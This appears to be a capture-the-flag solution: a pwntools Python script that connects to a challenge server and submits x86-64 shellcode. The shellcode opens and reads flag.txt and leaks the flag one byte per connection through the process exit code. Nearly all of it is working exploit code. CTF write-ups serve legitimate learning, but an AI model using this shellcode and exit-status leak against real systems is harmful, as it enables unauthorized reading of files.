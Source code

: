here is the exploit for the intended way.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)


host, port = "kitctf.me", "1338"

flag = ''

for i in range(46):
  p = remote(host,port)
  shellc = asm('''
  // open
  mov eax,0
  mov ecx, 0x67616C66
  mov [rsp],ecx
  mov ecx, 0x7478742E
  mov [rsp+4],ecx
  mov [rsp+8],eax
  mov rdi,rsp
  mov rsi,rax
  mov al,2
  syscall

  // read
  mov rdi,rax
  mov rsi,rsp
  mov edx,0x200
  mov eax,0
  syscall

  mov rdi,[rsi+%d]	/* leak flag byte with exit code */
  ''' % i)
  sla('> ', binascii.hexlify(shellc))
  flag += chr(int(rcu('exit status ', '.'),10))
  print(flag)
  p.close()
```
